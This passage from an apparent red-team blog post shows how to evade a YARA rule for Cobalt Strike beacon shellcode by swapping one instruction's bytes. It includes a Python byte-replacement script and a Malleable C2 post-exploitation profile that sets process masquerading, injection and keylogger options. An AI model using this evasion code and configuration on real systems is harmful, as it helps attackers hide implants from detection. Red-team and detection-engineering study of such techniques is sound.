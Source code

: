 https://whiteknightlabs.com/wp-content/uploads/2023/05/Screencast-from-18.5.23-033406.MD-CEST.webm

We changed the instruction and eax,0xFFFFFF to mov eax,0xFFFFFF (since these two instructions are almost identical) and you can still see that when executed, the zero flag is still set to 1:

https://whiteknightlabs.com/wp-content/uploads/2023/05/Screencast-from-18.5.23-032619.MD-CEST.webm

Scanning the new generated binary with YARA leads to no detection (both static and in-memory):

![yara_fully_bypassed](https://whiteknightlabs.com/wp-content/uploads/2023/05/Screenshot-from-2023-05-18-14-05-20.png)

To fully automate the bytes replacement, we created a [python script](https://github.com/WKL-Sec/Malleable-CS-Profiles/blob/main/rule_f0b627fc_bypass.py) which generates the modified shellcode in a new binary file:

```python
def replace_bytes(input_filename, output_filename):
    search_bytes      = b"\x25\xff\xff\xff\x00\x3d\x41\x41\x41\x00"
    replacement_bytes = b"\xb8\x41\x41\x41\x00\x3D\x41\x41\x41\x00"
  
    with open(input_filename, "rb") as input_file:
        content = input_file.read()
        modified_content = content.replace(search_bytes, replacement_bytes)
    
    with open(output_filename, "wb") as output_file:
        output_file.write(modified_content)
    
    print(f"Modified content saved to {output_filename}.")

# Example usage
input_filename = "beacon_x64.bin"
output_filename = "output.bin"
replace_bytes(input_filename, output_filename)
```

The code searches for the byte sequence `\x25\xff\xff\xff\x00\x3d\x41\x41\x41\x00` (and eax,0xFFFFFF) and replace it with the new byte sequence `\xb8\x41\x41\x41\x00\x3D\x41\x41\x41\x00` (mov eax, 0xFFFFFF). The changes are later saved to the new binary file.

## Improving the Post Exploitation stage

We took our [reference profile](https://github.com/xx0hcd/Malleable-C2-Profiles/blob/master/normal/amazon_events.profile) and updated the Post Exploitation profile to the following:

```
post-ex {
    set pipename "Winsock2\\CatalogChangeListener-###-0";
    set spawnto_x86 "%windir%\\syswow64\\wbem\\wmiprvse.exe -Embedding";
    set spawnto_x64 "%windir%\\sysnative\\wbem\\wmiprvse.exe -Embedding";
    set obfuscate "true";
    set smartinject "true";
    set amsi_disable "false";
    set keylogger "GetAsyncKeyState";
    #set threadhint "module!function+0x##"
}
```
